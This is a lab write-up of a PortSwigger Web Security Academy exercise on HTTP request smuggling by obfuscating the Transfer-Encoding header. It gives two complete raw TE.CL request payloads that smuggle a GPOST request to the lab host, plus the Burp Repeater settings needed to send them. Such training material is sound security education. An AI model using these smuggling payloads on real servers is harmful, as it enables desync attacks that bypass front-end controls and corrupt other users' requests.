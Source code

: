 # HTTP request smuggling, obfuscating the TE header | Jan 28, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header), you'll learn: HTTP request smuggling, obfuscating the TE header! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174129.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174306.png)

**We can send this request to Burp Suite's Repeater and try to smuggle a GPOST method request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174412.png)

To do so, change the request method to POST:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174501.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174506.png)

**Then, we can add a header called `Transfer-Encoding`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128174703.png)

**After that, we can try to smuggle a TE.CL (Front-end uses `Transfer-Encoding`, back-end uses `Content-Length`) request:**
```http
POST / HTTP/1.1
Host: 0a2d00ff037899c8c17fc88600cc00e5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

65
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
smuggled=yes
0


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128175121.png)

Hmm... HTTP status 500 Internal Server Error.

Maybe both front-end and back-end uses `Transfer-Encoding` header (TE.TE)?

**To test this, we can obfuscate the `Transfer-Encoding` header:**
```http
Transfer-Encoding: chunked
Transfer-encoding: x
```

When we send this request, we can assume the back-end uses `Content-Length` header.

**Now, we can handle this as a TE.CL HTTP request smuggling:**
```http
POST / HTTP/1.1
Host: 0a2d00ff037899c8c17fc88600cc00e5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: x

65
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

> Note: To send this request, you'll need to uncheck the "Update Content-Length" option in Burp Repeater, add trailing sequence `\r\n\r\n` following the final `0`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-3/images/Pasted%20image%2020230128181053.png)

As you can see, we successfully smuggled the GPOST method request!

# What we've learned:

1. HTTP request smuggling, obfuscating the TE header